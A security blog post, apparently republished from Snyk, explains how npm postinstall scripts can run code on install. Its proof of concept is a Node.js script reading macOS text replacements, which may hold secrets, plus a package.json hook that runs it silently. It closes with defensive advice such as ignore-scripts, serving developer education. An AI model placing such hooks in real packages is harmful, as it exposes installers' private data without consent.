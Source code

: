 ```yaml
---
title: 'Using insecure npm package manager defaults to steal your macOS keyboard shortcuts'
description: >-
  Node Package Manager (npm) provides a set of scripts for developers and package maintainers to maintain the life cycle events of a package.
date: 2023-06-28
tag: security
status: published
canonical_url: 'https://snyk.io/blog/using-insecure-npm-package-manager-defaults/'
---
```


> This article is originally available at [Snyk.io][snyk-blog].

Malicious npm packages and their dangers have been a frequent topic of discussion — whether
it’s [hundreds of command-and-control Cobalt Strike malware packages][cobalt-strike],
[typosquatting][typosquatting], or general malware published to the npm registry
(including PyPI and others). To help developers and maintainers defend against these security
risks, [Snyk published a guide to npm security best practices][snyk-best-practices].

All that said, the following attack scope, which Yagiz Nizipli alerted long-time maintainers to,
and the real-world risk related to data compromise are a great example of how important it is to
minimize the risks of arbitrary command execution with package managers, such as those employed
via npm’s postinstall lifecycle hooks.

## Life cycle scripts of npm

Node Package Manager (npm) provides a set of scripts for developers and package maintainers to
maintain the life cycle events of a package. These scripts provide significant value to
developers by enabling them to perform various tasks or configurations as part of the package
installation process. For example, with `postinstall` scripts, developers can automate tasks such
as building assets, setting up environment variables, running migrations, or any tasks that can
be automatically executed.

The `scripts` property of a `package.json` file defines the commands triggered by the package's
lifecycle and the dependent of the package you're developing. As of today, `npm` supports
a limited number of life cycle scripts in any scripts property of a package.json file.

For simplicity, the rest of this article will focus on the `postinstall` command. However, all concepts provided by this article also apply to other life cycle operations.

## Past security incidents

There have been several high-profile incidents that had a real-world impact on JavaScript developers, including:

- The [cross-env](https://iamakulov.com/notes/npm-malicious-packages/) security incident discovered by Oscar Bolmsten.
- The [eslint-scope security compromise](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes/).
- The [event-stream spear-headed attack](https://snyk.io/blog/a-post-mortem-of-the-malicious-event-stream-backdoor/) on cryptocurrency application developers.

Many other JavaScript and Node.js security incidents are curated on the
[Awesome Node.js Security repository][awesome-nodejs-security].

## Data-at-rest Security

Security professionals identify the protection of assets when the data is stored or at rest by
`Data-at-rest`, as opposed to when it is in transit or being processed. It focuses on protecting
the sensitive information stored in databases, file systems, or persistent storage. Data-at-rest
security aims to prevent unauthorized access, disclosure, or data tampering while it is dormant.
Various measures are available to ensure data-at-rest security, such as:

- **On-demand decryption**: Decrypting only the data required to perform the current task and storing the rest of the data encrypted to prevent forbidden access.
- **Access control logic**: Validating the requester's identity through a mechanism such as a password, two-factor authentication, or biometrics provided by an operating system (such as FaceID) — making it possible to limit the exposure of the resource to unwanted people.

### Attack surface of a developer

Industry best practices force us to use and follow principles to develop applications. These best practices offer many advantages when working with different teams and developers but also increase the attack surface.

What sort of data is lying around unencrypted in a developer machine?

- Environment variables through plain text files, such as .env (available for consumption through the dotenv package).
- Configuration files for projects stored as a JSON file, such as config.json.
- SSH keys for accessing Github/Gitlab, which are available in the ~/.ssh folder.
- And... **macOS Keyboard Shortcuts**!

## macOS Text Replacements

macOS, by default, has a feature called `Text Replacements` hidden inside the system preferences
applications. This feature allows users to quickly replace a word with another word. Just
recently, I've learned that a developer from a well-known company was using text replacements
to replace `@card` keyword with their credit card information. Even though the credit card number
without the expiration date or CVV does not expose your money to outsiders, it adds an attack
surface for them to exploit.

![macOS Text Replacements](@/assets/content/macos-text-replacements.png)

> Text Replacements feature is available through System Preferences application, under the `Keyboard` menu item.

## Exfiltrating keyboard text replacements

Keyboard shortcuts are stored under `defaults`, which corresponds to a filesystem backed `.plist`
file somewhere in your local folder. Executing the following command will return your configured
text replacements, which are also available through the System Preferences application.

Remember that the following code does not require `sudo` access and can be executed by any
process in your computer.

```bash title="Reading text replacements"
> defaults read -g NSUserDictionaryReplacementItems
(
  {
    on = 1;
    replace = "@ssh-key";
    with = "my-secret-password";
  }
)
```

The same command can be executed through `execSync` in Node.js, and parsed without any hassle,
through the `postinstall` life cycle operation supported by the `npm` package manager.

The following is an example of a Node.js script that can be employed by malicious actors to
access macOS text replacements and exfiltrate sensitive data:

```js title="Retrieve text replacements"
import { execSync } from 'node:child_process'

const decoder = new TextDecoder()
const res = execSync('defaults read -g NSUserDictionaryReplacementItems')
const text_replacements = decoder.decode(res)

console.log(text_replacements)
```

To make sure the above code runs when this package is installed, we will update the package
manifest file as follows `package.json`:

```json title="Exploiting the postinstall command"
{
  "name": "my-useful-library",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "type": "module",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "postinstall": "node ./retrieve.js"
  },
  "keywords": [],
  "author": "",
  "license": "ISC"
}
```

When distributed through npm, and downloaded by a developer, this library will directly execute
our custom script to retrieve and process the keyboard replacements. If you aren’t careful,
it's easy to miss the line containing > node ./retrieve.js.

```bash title="NPM install flow"
➜  vulnerable npm i

> my-useful-library@1.0.0 postinstall
> node ./retrieve.js

up to date, audited 1 package in 192ms

found 0 vulnerabilities
➜  vulnerable
```

## Protection

What can you do as a developer to mitigate the security risks of malicious npm packages and
general security concerns of arbitrary command execution from packages in your dependency tree?

### Ignore scripts on npm package installations

Protecting yourself from packages that leverage `postinstall` scripts is possible. npm
provides `--ignore-scripts` configuration when installing packages.

```bash title="Ignore all scripts"
➜  npm i --ignore-scripts
up to date, audited 1 package in 124ms
found 0 vulnerabilities
```

### Use safe npm defaults

NPM has a configuration file called [.npmrc](npmrc-documentation). You can change the default
preferences using the `npm` CLI to ensure secure defaults:

```bash title="Ignore all scripts by default"
➜  npm config set ignore-scripts true
➜  npm i
up to date, audited 1 package in 126ms
found 0 vulnerabilities
```

### Secure storage

Most importantly, you should never store sensitive information in plain text. If you have to
store it in plain text due to other requirements, you should always make the resource
accessible through multi-factor authentication.

---

**Note**: Originally, I've written this article on [Snyk blog][snyk-blog] published by Liran Tal.

[awesome-nodejs-security]: https://github.com/lirantal/awesome-nodejs-security
[cobalt-strike]: https://snyk.io/blog/snyk-200-malicious-npm-packages-cobalt-strike-dependency-confusion-attacks/
[typosquatting]: https://snyk.io/blog/typosquatting-attacks/
[snyk-best-practices]: https://snyk.io/blog/ten-npm-security-best-practices/
[npm-scripts-documentation]: https://docs.npmjs.com/cli/v9/using-npm/scripts
[npmrc-documentation]: https://docs.npmjs.com/cli/v9/configuring-npm/npmrc
[snyk-blog]: https://snyk.io/blog/using-insecure-npm-package-manager-defaults/
